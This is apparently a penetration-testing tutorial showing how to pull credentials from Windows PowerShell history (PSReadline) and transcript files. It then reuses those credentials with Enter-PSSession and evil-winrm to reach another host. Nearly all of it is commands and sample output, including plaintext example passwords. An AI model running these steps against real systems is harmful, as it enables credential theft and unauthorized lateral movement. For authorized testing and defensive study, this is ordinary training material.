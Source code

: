 # Leveraging PowerShell Logs in Penetration Testing

## Introduction

During penetration testing, gaining access to sensitive information like credentials can significantly enhance your foothold in the target environment. PowerShell logging mechanisms, such as Transcription and Script Block Logging, are valuable resources that can reveal crucial information.

## PowerShell Logging Mechanisms

### PowerShell Transcription
Transcription logs commands executed in PowerShell, saving them in transcript files typically found in user directories or a central directory.

### Script Block Logging
Script Block Logging records entire blocks of script code as they execute, capturing full command content.

## Retrieving PowerShell History

### Scenario: Penetration Test
Assume you have a bind shell on port 4444 as user `dave`.

1. **Check PowerShell history:**

    ```powershell
    PS C:\Users\dave> Get-History
    ```

    If empty, check PSReadline history:

    ```powershell
    PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath
    PS C:\Users\dave> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```

2. **Analyze history file:**

    Example output might include commands setting up credentials:

    ```plaintext
    $PSVersionTable
    Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
    Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
    Clear-History
    Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
    Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    exit
    Stop-Transcript
    ```

    Note credentials or paths for further investigation.

3. **Review PowerShell Transcription:**

    ```powershell
    PS C:\Users\dave> type C:\Users\Public\Transcripts\transcript01.txt
    ```

    Example content might reveal credentials:

    ```plaintext
    $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
    Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    ```

4. **Use retrieved credentials to gain access:**

    ```powershell
    PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
    PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    ```

    Verify access with:

    ```powershell
    whoami
    ```

    If needed, use `evil-winrm` from Kali:

    ```bash
    kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
    ```

## Conclusion

PowerShell logs are a treasure trove for penetration testers. By examining PowerShell history and transcript files, you can uncover valuable credentials and command executions, enabling deeper access into the target environment. Always review these logs during your tests to maximize your findings.
